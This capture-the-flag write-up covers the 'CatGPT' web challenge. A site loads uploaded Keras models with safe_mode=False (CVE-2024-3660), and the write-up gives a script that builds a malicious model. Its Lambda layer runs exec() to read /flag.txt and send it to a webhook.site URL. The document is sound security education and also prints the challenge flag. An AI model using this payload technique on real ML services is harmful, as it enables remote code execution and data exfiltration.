

# Web: CatGPT (491)

The latest and greatest in AI technology being used for that age-old internet diversion....looking at cat photos.

[http://gpt.challs.uscybergames.com/](http://gpt.challs.uscybergames.com/)

Update: Due to possible inconsistencies between local builds made with the provided files and the image on the remote service, here is a copy built on the author's machine for you to test with.

[https://storage.googleapis.com/us-cyber-open-files/cat-gpt.tar](https://storage.googleapis.com/us-cyber-open-files/cat-gpt.tar)

Author: [tsuto](https://github.com/jselliott)

**Files:** cat-gpt.zip (Too big), cat-gpt.tar (Too big, in Google storage link)

## Writeup

Luckily, for this challenge, we are given a zip file of the source code for the website.

First, we need to unzip it to look through the code. 

From the Dockerfile, we can see that the flag.txt file will be in the root directory of the Docker container running the challenge.

```dockerfile
# Copy flag
COPY flag.txt /flag.txt

# Protect flag
RUN chmod 444 /flag.txt
```

Inside model.py, we also can find an interesting function...

```py
def validate_model(model_path):

    try:

        model = tf.keras.models.load_model(model_path,safe_mode=False)

        validation_dir = os.path.join(app.config.get("MODEL_DIR"), 'cats_and_dogs_filtered/validation')

        IMG_SIZE = (150, 150)
        BATCH_SIZE = 32

        validation_datagen = ImageDataGenerator(rescale=1./255)

        validation_generator = validation_datagen.flow_from_directory(
            validation_dir,
            target_size=IMG_SIZE,
            batch_size=BATCH_SIZE,
            class_mode='binary'
        )

        validation_loss, validation_accuracy = model.evaluate(validation_generator, steps=validation_generator.n // BATCH_SIZE,verbose=0)

        return {"accuracy":round(validation_accuracy*100)}
    
    except Exception as e:
        logging.error(e)
        return {"error":"An error occurred while validating your model."}
```

The `safe_mode=False` is pretty interesting here. 

Looking this up, we can find the documentation for TensorFlow: [https://www.tensorflow.org/api_docs/python/tf/keras/models/load_model](https://www.tensorflow.org/api_docs/python/tf/keras/models/load_model)

Here, it says `When safe_mode=False, loading an object has the potential to trigger arbitrary code execution.`, which is very interesting for us.

Specifically, what this is referring to is Lambda layers, which are able to use Python code to transform the values of neurons in a neural network, although this can also do other things such as reading a file, as we will do here.

For this challenge, first, it's useful to build the Docker container locally.

If we run `./build-docker.sh` as root, we can do this, although there are some modifications needed.

If we don't modify anything, we get an error:


So, in our Dockerfile, we will need to use `--break-system-packages` for both PIP commands to get this to load.

We also need to change the UID since the "UID is not unique" for the one set in the Dockerfile.

Anyways, once we get this loaded, we can start crafting our payload.

Also, doing more research, it turns out this vulnerability actually has a CVE! It is [CVE-2024-3660](https://nvd.nist.gov/vuln/detail/CVE-2024-3660).

And there is also a proof-of-concept posted [on GitHub](https://github.com/Azure/counterfit/wiki/Abusing-ML-model-file-formats-to-create-malware-on-AI-systems:-A-proof-of-concept).

Using this as an example, we can start writing Python code to generate a payload. 

While this example uses the functional mode of creating TensorFlow models, I find Sequential to be a bit easier.

Anways, we can start with a Python script!

We need to import TensorFlow first:

```py
from tensorflow import keras
```

Then, we need to define our input layer. Since the code we are given defines the images as 150x150 and images have 3 colors, the shape should be `(150,150,3)`.

```py
inputs = keras.Input(shape=(150,150,3))
```

Then, we can reduce this to one neuron in a layer by flattening and then using a dense layer.

```py
flatten = keras.layers.Flatten()
dense1 = keras.layers.Dense(units=1)
```

And now is time for our payload!

Using a webhook, we can make this make a request based on the contents of `/flag.txt`! And we can do this all within a Lambda layer!

```py
outputs = keras.layers.Lambda(lambda x: x if exec("__import__('requests').get(f'https://webhook.site/8a80adf1-94d1-4249-9ff3-7fd05707ddde?flag={str(open(\"/flag.txt\",\"r\").read())}')") else x)
```

And now, to build and save!

```py
model = keras.Sequential([inputs, flatten, dense1, outputs])

model.compile(optimizer="adam", loss="mean_squared_error", metrics=('accuracy',))

model.summary()

model.save("payload_native.h5")
```

Here, we also need the `metrics` parameter to ensure everything loads properly since loss and accuracy are used by the `validate_model` function.

Now, it's time to try this on our Docker container!

If we go to `http://localhost:1337`, we can access the website.


Now, if we go to "contribute", we can upload our file and see what happens!

Unfortunately, nothing happens and it actually throws an error.


This is because we're using the wrong version of Python!


While the Docker container is using Python 3.12.3, we are using 3.11.8. This is an issue because when the Lambda layer is serialized by TensorFlow, it compiles this to bytecode which changes by Python version. Therefore, we must at least use the same major version of Python as the server we are targeting. If we re-run our original Docker container with a volume, using the `-v $PWD:/tmp` flag, we can build from this container. However, we need to make sure the entire directory has public write permissions first. To separate, I also changed the Python script to name the output file `payload_docker.h5` instead. 

And now, if we build here and upload, we see it works!


Though, now we need to know what version of Python the main environment uses... At first, this was not given, but in an update to the challenge, a `.tar` file was included that includes all the information we need to find this exact environment! It turned out that Python was not as updated as it could have been, likely because Docker cached the results of the Python update from a previous container. 

Anyways, if we extract this `.tar` file, we can start doing some forensics to figure out what happened. 

When we start extracting the `layer.tar` file in `1fa339f371eedfc9bf8efc7dafb7218405123118ca7eb36d6ff1bffbc4c36542`, we already start to see what we need!


And so now, we know that the server uses Python 3.10! The nice thing is that there is a [Docker container](https://hub.docker.com/_/python) for Python, which we can pull version 3.10 from!

Now, we can run this Docker container and install TensorFlow, and then generate our new payload.



And once we have it, we can upload to the main instance and get our flag!

And checking our webhook, we can find the flag!


And our flag is `SIVUSCG{c4t_0r_d0g_0rrrrrrr_fl4g}`!
